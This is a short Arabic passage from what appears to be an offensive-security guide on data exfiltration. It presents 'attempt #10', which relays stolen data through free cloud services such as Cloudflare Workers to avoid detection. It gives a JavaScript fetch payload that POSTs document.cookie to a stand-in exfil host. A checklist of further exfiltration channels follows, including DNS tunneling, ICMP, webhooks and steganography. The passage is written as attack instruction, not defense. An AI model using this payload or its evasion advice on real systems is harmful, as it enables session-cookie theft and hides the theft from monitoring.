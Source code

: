 
## 🔍 المحاولة #10: استخدام Cloudflare Worker أو Firebase Functions

### ⚙️ الفكرة:
استخدام خدمات سحابية مجانية لاستقبال البيانات بدون التنبيه إليها.

### 💥 الاستغلال:

```javascript
fetch('https://your-worker.example.com/exfil', {
  method: 'POST',
  body: JSON.stringify({ token: document.cookie })
});
```

### 📌 النتيجة:
- استخدام خدمات شرعية لتمرير البيانات.
- لا يُسجل IP مريب.

---

## 📋 Checklist: هل تم تنفيذ Data Exfiltration بنجاح؟

| الطريقة | تم تنفيذها؟ | ملاحظات |
|--------|--------------|----------|
| DNS Tunneling | ✅ / ❌ |                         |
| HTTP Leak (XSS/SSRF) | ✅ / ❌ |                     |
| ICMP Exfiltration | ✅ / ❌ |                        |
| FTP/SFTP Upload | ✅ / ❌ |                          |
| DNS TXT Records | ✅ / ❌ |                          |
| Email Sending | ✅ / ❌ |                            |
| Slack/Webhook | ✅ / ❌ |                            |
| Steganography | ✅ / ❌ |                            |
| Cloudflare Worker | ✅ / ❌ |                        |
| Redis/MongoDB Dump | ✅ / ❌ |                       |

---

